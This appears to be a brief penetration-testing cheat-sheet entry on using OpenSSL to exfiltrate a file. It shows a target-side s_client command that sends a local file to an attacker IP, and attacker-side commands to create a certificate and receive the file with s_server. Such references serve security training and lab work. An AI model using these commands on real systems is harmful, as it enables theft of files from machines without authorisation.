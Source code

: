 # OpenSSL

## 01 - Usage

### 1.1 - Target

`$ openssl s_client -quiet -connect <attacker_IP>:<PORT> < "/path/to/file.txt"`

### 1.2 - Attacker

```
$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

$ openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT> > file.txt
```